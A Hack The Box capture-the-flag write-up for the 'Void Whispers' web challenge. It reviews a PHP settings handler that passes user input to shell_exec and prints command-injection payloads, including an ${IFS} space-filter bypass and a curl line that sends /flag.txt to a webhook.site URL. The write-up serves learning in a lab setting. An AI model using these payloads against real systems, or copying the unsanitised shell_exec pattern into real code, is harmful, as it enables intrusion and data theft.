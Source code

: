 ```yaml
---
title: Void Whispers - Hack The Box
date: 2024-12-11
---
```


# Void Whispers 🎃

## Challenge description

In the dead of night, an eerie silence envelops the town, broken only by the faintest of echoes—whispers in the void. A
phantom mailer is sending out silent commands, unseen and unheard, manipulating systems from the shadows. The townsfolk
remain oblivious to the invisible puppeteer pulling their strings. Legends hint that sending the right silent message
back could reveal hidden secrets. Can you tap into the darkness, craft the perfect unseen command, and shut down the
malevolent force before it plunges the world into chaos?

## Challenge overview

The challenge involves a web application that provides an interface to configure email settings. By exploiting
vulnerabilities in the configuration functionality, we can gain unauthorized access to sensitive data.

![Void Whispers - Overview](/ctf/hack-the-box/challenges/web/void-whispers/overview.png)

## Code review

### `IndexController.php`

The `updateSetting` function handles updates to email configurations. It validates the `sendMailPath` parameter to
ensure no spaces are present and verifies the binary's existence using the `which` command. If validation passes, the
function updates the configuration file.

```php
public function updateSetting($router)
{
    $from = $_POST['from'];
    $mailProgram = $_POST['mailProgram'];
    $sendMailPath = $_POST['sendMailPath'];
    $email = $_POST['email'];
    if (empty($from) || empty($mailProgram) || empty($sendMailPath) || empty($email)) {
        return $router->jsonify(['message' => 'All fields required!', 'status' => 'danger'], 400);
    }

    if (preg_match('/\s/', $sendMailPath)) { // [!code focus]
        return $router->jsonify(['message' => 'Sendmail path should not contain spaces!', 'status' => 'danger'], 400);
    }

    $whichOutput = shell_exec("which $sendMailPath"); // [!code focus]
    if (empty($whichOutput)) {
        return $router->jsonify(['message' => 'Binary does not exist!', 'status' => 'danger'], 400);
    }

    $this->config['from'] = $from;
    $this->config['mailProgram'] = $mailProgram;
    $this->config['sendMailPath'] = $sendMailPath;
    $this->config['email'] = $email;

    file_put_contents($this->configFile, json_encode($this->config));

    return $router->jsonify(['message' => 'Config updated successfully!', 'status' => 'success'], 200);
}
```

**Vulnerabilities Identified**

1. Space Validation Bypass
   The `preg_match('/\s/', $sendMailPath)` validation can be bypassed using `${IFS}`, a shell variable representing a
   space character.

2. Command Injection
   The `shell_exec("which $sendMailPath")` function directly executes shell commands without sanitization. Injecting
   commands into the `sendMailPath` parameter allows arbitrary command execution.

## Exploitation

### Step 1: Space Validation Bypass

To bypass the `preg_match` validation for spaces, we use `${IFS}` (Internal Field Separator) to represent spaces. For
example:

```bash
/usr/sbin/sendmail;${IFS}whoami
```

This payload bypasses the space check and allows command injection.

### Step 2: Command Injection

Using the command injection vulnerability, we can craft a payload to execute arbitrary commands. For instance, to
retrieve the flag:

```bash
/usr/sbin/sendmail;curl${IFS}https://webhook.site/your-webhook-url?flag=$(cat${IFS}/flag.txt)
```

::: info **Explanation of Payload**:

- `/usr/sbin/sendmail`: A valid command to pass initial validation.
- `;`: Ends the first command and starts a new one.
- `curl${IFS}https://webhook.site/your-webhook-url?flag=`: Sends an HTTP request with the flag content.
- `$(cat${IFS}/flag.txt)`: Reads the `flag.txt` file and appends its content to the `flag` parameter.

:::

### Step 3: Sending the Exploit

Set the `sendMailPath` parameter to the crafted payload and send the form. The application will execute the payload,
sending the flag to the specified WebHook.

### Step 4: Retrieving the Flag

Monitor your WebHook for incoming requests. The flag will appear in the request URL:

```bash
https://webhook.site/5ae0b38c-d624-49c7-8c83-eb3b56728f18?flag=HTB{f4k3_fl4g_f0r_t35t1ng}
```

With the fake flag retrieved, we can use the same technique to get the real flag on the HTB server.

![Void Whispers - pwned](/ctf/hack-the-box/challenges/web/void-whispers/pwned.png)

## References

- [Filter Evasion in a REVERSE SHELL (no spaces!!) - John Hammond](https://www.youtube.com/watch?v=mEGnhfOX-xs)
- [WebHook.site](https://webhook.site/)
